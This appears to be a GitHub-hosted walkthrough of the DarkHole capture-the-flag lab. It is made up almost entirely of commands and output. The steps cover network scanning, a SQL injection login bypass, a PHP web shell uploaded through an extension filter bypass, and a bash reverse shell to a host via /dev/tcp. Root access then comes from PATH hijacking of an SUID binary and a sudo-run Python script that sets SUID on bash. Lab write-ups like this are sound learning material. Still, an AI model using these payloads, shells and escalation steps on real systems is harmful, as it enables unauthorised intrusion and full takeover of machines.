




## init
```bash

arp-scan -I wlo1 --localnet
ping -c 1 192.168.1.13

nmap -p- --open --min-rate 5000 -sS -n -Pn -vvv 192.168.1.13 -oG allPorts
nmap -sCV -p22,80 192.168.1.13 -oN targeted

whatweb http://192.168.1.13/

# in login
admin' or 1=1 -- -' # ignore fonal simple comm

# open burpsuite and change the pass of id = 1
login with user admin and the new pass

# using dirb to show dirs like gobuster
# Using Dirb
dirb http://192.168.1.13 /usr/share/wordlists/dirb/common.txt
<>

# creating a cmd php file
<?php
    echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>"; 
?>

# cant upload files with php extension
# using burpsuite to add more extension files

```


- Adding extension in the payload


- Change error for every extension


- Ans


```bash
# check recently uploaded files
http://192.168.1.13/upload/

# CHeck the files ttat returns a response (not all files gives you a response)
http://192.168.1.13/upload/cmd.phtml?cmd=whoami

# Sens a bash
192.168.1.13/upload/cmd.phtml?cmd=bash -c "bash -i >&/dev/tcp/192.168.1.12/443 0>&1"
http://192.168.1.13/upload/cmd.phtml?cmd=bash-c "bash-i >%26 /dev/tcp/192.168.1.12/443 0>%261"

nc -nlvp 443

# using pwncat-cs
pwncat-cs -lp 443
back
ls
whoami

export TERM=xterm

run enumerate # just in pwncat-cs

cd /home

drwxrwxrwx 5 john john      4096 Jul 17  2021 .
drwxr-xr-x 4 root root      4096 Jul 16  2021 ..
-rw------- 1 john john      1722 Jul 17  2021 .bash_history # can view
-rw-r--r-- 1 john john       220 Jul 16  2021 .bash_logout
-rw-r--r-- 1 john john      3771 Jul 16  2021 .bashrc
drwx------ 2 john john      4096 Jul 17  2021 .cache
drwxrwxr-x 3 john john      4096 Jul 17  2021 .local
-rw------- 1 john john        37 Jul 17  2021 .mysql_history
-rw-r--r-- 1 john john       807 Jul 16  2021 .profile
drwxrwx--- 2 john www-data  4096 Jul 17  2021 .ssh
-rwxrwx--- 1 john john         1 Jul 17  2021 file.py
-rwxrwx--- 1 john john         8 Jul 17  2021 password
-rwsr-xr-x 1 root root     16784 Jul 17  2021 toto #suid
-rw-rw---- 1 john john        24 Jul 17  2021 user.txt

file toto
strings toto

./toto #same
id # same

# if the compiled file not includes an absolute path, we can use the path to put any abs one

echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

cd /tmp
touch id
chmod +x id
nano id

bash -p # in file
export PATH=/tmp:$PATH

/home/john/toto
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

id
cd /home
cd /john
ls -l

cat user #DarkHole{You_Can_DO_It}
cat password # root123


grep -n "^root123$" # start, end

sudo -l # + pass
# ans
Matching Defaults entries for john on darkhole:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on darkhole:
    (root) /usr/bin/python3 /home/john/file.py

# file.py
import os
os.system("chmod u+s /bin/bash")

sudo /usr/bin/python3 /home/john/file.py
ls -l /bin/bash # setted suid

bash -p
whoami
cd /root
cat root.txt
  


```